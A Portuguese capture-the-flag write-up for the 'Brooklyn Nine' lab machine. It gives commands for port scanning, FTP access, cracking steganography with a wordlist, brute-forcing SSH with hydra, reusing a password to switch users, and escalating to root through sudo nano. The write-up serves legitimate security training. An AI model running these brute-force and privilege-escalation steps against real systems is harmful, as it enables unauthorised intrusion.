 # Brooklyn Nine

* ### Scan de portas - Verificando quais portas estão abertas.
```Bash
rustscan -a 10.10.248.74
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5c69703f-45d5-48b6-9051-053ef0c623ef)

![image](https://github.com/lufffe/Writeups/assets/90646635/55c6b5d0-ddd1-4e29-846b-c18ab5259781)

* ### Verificando o que está rodando nas portas encontradas.
```Bash
nmap -A -p 21,22,80 10.10.248.74
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3cc8a295-f6df-4b2b-805a-75f68d505379)

* ### Verificando o FTP e baixando o arquivo que estava lá.
```Bash
ftp 10.10.248.74
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0f02bdac-2da3-4511-b857-b0e42e791fe4)

* ### Lendo arquivo baixado.
![image](https://github.com/lufffe/Writeups/assets/90646635/efa475d4-91f3-4d60-aac8-d43e50064870)

* ### Olhando o Http.
![image](https://github.com/lufffe/Writeups/assets/90646635/1be68ae1-ece5-4ac5-bd5c-a4d1ca795412)

* ### Temos uma imagem gigantesca, e um comentário sobre esteganografia.
![image](https://github.com/lufffe/Writeups/assets/90646635/8e76fa90-d372-4bc4-87f6-107cdabb2ad2)

* ### Baixando a imagem.
```Bash
wget http://10.10.248.74/brooklyn99.jpg
```

* ### Procurando uma possivel senha na imagem.
```Bash
sudo stegcracker brooklyn99.jpg ~/rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/95d9b4b8-9fc0-4c70-9fe5-916cf9663fc8)

* ### Encontrada, mas não é a senha do SSH do usuário Jake.
![image](https://github.com/lufffe/Writeups/assets/90646635/a229cde0-1be1-4687-a165-d4062676fc17)

* ### BruteForce no SSH.
```Bash
hydra -l jake -P rockyou.txt 10.10.248.74 ssh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/529cfea5-9d0a-4f61-8041-61493f8d62b8)

* ### Depois de acessar o SSH pelo usuário Jake com a senha encontrada no BruteForce, vi que tem um usuário Holt, testei a senha encontrada na imagem e deu certo, a Flag User está lá.
![image](https://github.com/lufffe/Writeups/assets/90646635/4972304b-a169-4de3-9181-afc9a4511987)

* ### Flag User.
```Bash
cat /home/holt/user.txt 
```

* ### Procurando como escalar previlégio do usuário.
```Bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4e85e84a-2b4a-4a34-8b84-587705ed5599)


* ### Ai ficou facil :D .
```Bash
sudo /bin/nano /root/root.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/03553ac2-9204-4914-b278-a7b19bcb0d4b)


